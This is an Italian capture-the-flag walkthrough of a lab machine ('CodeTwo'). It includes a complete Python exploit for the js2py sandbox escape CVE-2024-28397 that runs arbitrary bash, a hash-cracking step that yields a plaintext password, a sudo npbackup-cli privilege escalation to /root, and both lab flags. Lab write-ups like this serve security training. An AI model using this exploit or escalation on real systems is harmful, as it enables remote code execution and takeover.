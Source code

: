 # CodeTwo

![Card](./img/CodeTwo.png)

## Reconnaissance

Target Machine: 10.x.x.x

Si inizia con una scansione **NMAP**.

![nmap](./img/1-nmap.png)

Oltre al servizio **SSH** e' presente anche un server **Gunicorn v20.0.4** raggiungibile tramite http alla porta **8000**.

> Gunicorn e' un Python WSGI HTTP Server per UNIX.

Si visita con il browser l'URL **http://10.x.x.x:8000**.

![website](./img/2-site.png)

L'applicazione web dovrebbe offrire la possibilita' di salvare e eseguire codice **JavaScript**.

E' possibile registrarsi ed accedere al proprio profilo seguendo rispettivamente questi URLs:

- **http://10.x.x.x:8000/register**

- **http://10.x.x.x:8000/login**

Mentre, da **http://10.x.x.x:8000/download** e' possibile scaricare il file **app.zip**.

Si scarica ed ispeziona il contenuto del file.

```bash

$ curl -Go app.zip http://10.x.x.x:8000/download 

$ unzip app.zip -x app/

```

![tree](./img/3-tree.png)

Il file **requirements.txt** contiene le dipendenze che utilizza l'applicazione.

```text

flask==3.0.3
flask-sqlalchemy==3.1.1
js2py==0.74

``` 

> js2py e' un **JavaScript to Python Translator & JavaScript interpreter**.
> 
> [https://github.com/PiotrDabkowski/Js2Py](https://github.com/PiotrDabkowski/Js2Py)
 
Inoltre, e' presente il file **instance/users.db** 

![sqlite empty db](./img/4-db.png)

Tuttavia, il database e' vuoto.

Mentre, il file **app.py** contiene il codice sorgente dell'appliazione web.

Lo studio del codice di *app.py* viene accompagnato dal diretto utilizzo della web-app, procedendo con la registrazione come **user:user**.

![dashboard](./img/5-dashboard.png)

E' possibile scrivere, eseguire e memorizzare codice scritto con il linguaggio **JavaScript**.

![dashboard-2](./img/6-dashboard2.png)

Dal codice sorgente in *app.py* si individua **/run_code** che dietro le quinte si basa sul metodo **eval_js** della libreria js2py per interpretare il codice **JS** fornito dall'utente.

![app.py](./img/7-app.png)

Si individua la **CVE-2024-28397** che coinsiste in una **sandbox escape** per **js2py**, con il bypass della restrizione **pyimport** (`js2py.disable_pyimport()`).

Requisiti:

- **js2py<=0.74**.

- **Python 3**, poiche' il framework *flask v3.0.3* e' compatibile per questa versione di Python.

> E' disponibile una **PoC** [https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/tree/main](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape) presa come riferimento.

Lo script **exploit** permette di inoltrare una richiesta POST a */run_code* e di ottenere un riferimento a un oggetto Python nell'ambiente js2py, in modo tale da uscire dall'ambiente JS ed eseguire comandi arbitrari (**Remote Code Execution (RCE)**).

```python3

#!/usr/bin/python3
from argparse import ArgumentParser

if __name__ == "__main__":
    parser = ArgumentParser(prog="js2py (RCE) - exploit")
    parser.add_argument("-t", "--target", help="Target ipaddress:port", type=str, required=True)
    parser.add_argument("-c", "--command", help="Remote command to execute", type=str, required=True)
    parser.add_argument("-s", "--session", help="Session", type=str)

args = parser.parse_args()

target = args.target
cmd = args.command
session = args.session

import requests

payload = f'''
function exploit(cmd) {{
    let a = Object.getOwnPropertyNames({{}}).__class__.__base__.__getattribute__
    const obj = a(a(a,"__class__"), "__base__").__subclasses__()
    for (let i = 0; i < obj.length; i++) {{
        if (obj[i].__module__ == "subprocess" && obj[i].__name__ == "Popen") {{
            let Popen = obj[i]
            let p = Popen(cmd)
            let res = p.communicate()
            return p.pid
        }}
    }}
    return -1
}}

const cmd = ["/bin/bash","-c","{cmd}"]
exploit(cmd)
'''

json = { "code": payload }
cookies = {"session": session }
url = f"http://{target}/run_code"

response = requests.post(url, cookies=cookies, json=json)

print("\n========== js2py RCE =========\n")
print("Response: " + response.text)
print("\n==============================\n")

```

Si lancia lo script per far eseguire sulla macchina vittima il comando **curl**.

![simple cmds](./img/8-simple-cmd.png)

Funziona!!!

Allora si prova ad ottenere una **reverse shell**.

![reverse shell](./img/9-revshell.png)

Si e' acceduti come utente **app**. 

Sono presenti le stesse risorse di **app.zip**, quindi, si ispeziona il contenuto di **instance/users.db** e si ottengono i seguenti records:

```text

> SELECT * FROM user;

1|marco|649c9d65a206a75f5abe509fe128bce5
2|app|a97588c0e2fa3a024876339e27aeb42e

```

Da *app.py* si vede che alle password viene applicato **MD5**.

![register app](./img/10-register.png)

Si utilizza **HashCat** per craccare le password.

```bash

$ cat users.hash                                                                                                                                                                                                                                         
649c9d65a206a75f5abe509fe128bce5                                                                                                                                                                                                                           
a97588c0e2fa3a024876339e27aeb42e 

$ hashcat -a 0 -m 0 users.hash /usr/share/wordlists/rockyou.txt.gz
649c9d65a206a75f5abe509fe128bce5:sweetangelbabylove
 
```

Si ottengono le credenziali `marco:sweetangelbabylove`.

Si tenta l'accesso tramite **SSH**.

```bash

$ ssh marco@10.x.x.x

```

Funziona!

![marco](./img/11-user.png)

Si ottiene la flag `user.txt`.

- **19aa95eb23e9fc8c26d6da4703b6a72f**

![priv](./img/12-sudo.png)

L'utente *marco* ha i privilegi di eseguire con **sudo** il programma **/usr/local/bin/npbackup-cli**.

> npbackup e' una una soluzione di backup dei file caratterizzata da interfaccia CLI e GUI. [https://github.com/netinvent/npbackup](https://github.com/netinvent/npbackup)

L'idea e' quella di sfruttare questo programma con alti privilegi per accedere a contenuto altrettanto privilegiato, come **/root**.

Leggendo l'**help** del comando **npbackup-cli** si comprende come utilizzare il software.

```bash

$ sudo /usr/local/bin/npbackup-cli --help
  -c CONFIG_FILE, --config-file CONFIG_FILE                                                                                                                                                                                                                
                        Path to alternative configuration file (defaults to current dir/npbackup.conf) 
  -b, --backup          Run a backup                                                                                                                                                                                                                       
  -s, --snapshots       Show current snapshots                                                                                                                                                                                                             
  --ls [LS]             Show content given snapshot. When no snapshot id is given, latest is used     
  --list LIST           Show [blobs|packs|index|snapshots|keys|locks] objects
  --dump DUMP           Dump a specific file to stdout (full path given by --ls), use with --dump [file], add --snapshot-id to specify a snapshot other than latest

```

Si utilizza il file di configurazione gia' presente **npbackup.conf** e si tenta la **Privilege Escalation** modificando il **path** a **/root**.

![config](./img/14-config.png)

![priv esc](./img/15-privesc.png)

Catturata!!!

- **ed5839ff76e88af097713303adf99298**

---
